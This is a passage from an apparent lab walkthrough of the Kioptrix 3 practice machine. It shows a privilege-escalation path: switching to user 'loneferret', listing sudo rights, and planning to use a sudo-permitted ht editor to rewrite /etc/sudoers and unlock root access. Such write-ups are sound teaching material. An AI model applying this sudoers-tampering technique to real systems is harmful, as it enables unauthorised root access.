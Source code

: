 And here we get the login credentials for the user "loneferret".

## Privilege Escalation

Also, as dreg does not have access to commands with `sudo` privilege we can try to login as "loneferret" via SSH or directly use the `su loneferret` command while being logged in as "dreg" and check if he can access commands with `sudo` privilege.

```bash
dreg@Kioptrix3:~$ su loneferret
Password: 
loneferret@Kioptrix3:/home/dreg$ whoami
loneferret
loneferret@Kioptrix3:/home/dreg$ id
uid=1000(loneferret) gid=100(users) groups=100(users)
loneferret@Kioptrix3:/home/dreg$ sudo -l
User loneferret may run the following commands on this host:
    (root) NOPASSWD: !/bin/su
    (root) NOPASSWD: /usr/local/bin/ht
```

It can be seen that "loneferret" can run the command `/usr/local/bin/ht` as `sudo` but can't run the command `/bin/su`. So, we need to check what this `/usr/local/bin/ht` command does exactly in order to determine some step that can be used for privilege escalation. 

```bash
loneferret@Kioptrix3:/home/dreg$ sudo /usr/local/bin/ht 
Error opening terminal: xterm-256color.
```

But when we try to access the binary it gives an error. And to resolve this error, we can change the `$TERM` value which should resolve this issue.

```bash
loneferret@Kioptrix3:/home/dreg$ export TERM=xterm
```

Now, we can again run the command `sudo /usr/local/bin/ht`, which would open an editor.

![ht](./.images/ht.png)

We, can try to open the `/etc/sudoers` file here and check if we can modify it. Because if it can be modified then we can remove the `!` in front of the `/bin/su` command which would enable us to run that command without any password.
